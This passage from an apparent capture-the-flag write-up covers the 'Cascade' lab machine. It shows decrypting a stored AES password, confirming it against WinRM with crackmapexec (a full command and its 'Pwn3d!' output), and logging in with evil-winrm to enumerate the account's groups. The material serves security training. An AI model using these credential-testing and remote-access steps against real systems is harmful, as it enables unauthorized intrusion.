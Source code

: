 I look into `DecryptString` function after. I see this is base64 decode and  AES decryption. If `IV` and `passcode` is known there is no decryption at all :) 

![](/images/cascade/cyberchef.png)

I lunched cyberchef and obtain password. Checked if I can remote into system with crackmapexec

```
$ crackmapexec winrm 10.10.10.182 -u ArkSvc -p "w3lc0meFr31nd"                              
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\ArkSvc:w3lc0meFr31nd (Pwn3d!)
```

I got correct credentials. I user evilwin-rm to get access. Start enumerating this user.... 

```
*Evil-WinRM* PS C:\Users\arksvc\Documents> net user arksvc
User name                    arksvc
Full Name                    ArkSvc
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/9/2020 4:18:20 PM
Password expires             Never
Password changeable          1/9/2020 4:18:20 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   12/23/2021 6:22:27 AM

Logon hours allowed          All

Local Group Memberships      *AD Recycle Bin       *IT
                             *Remote Management Use
```
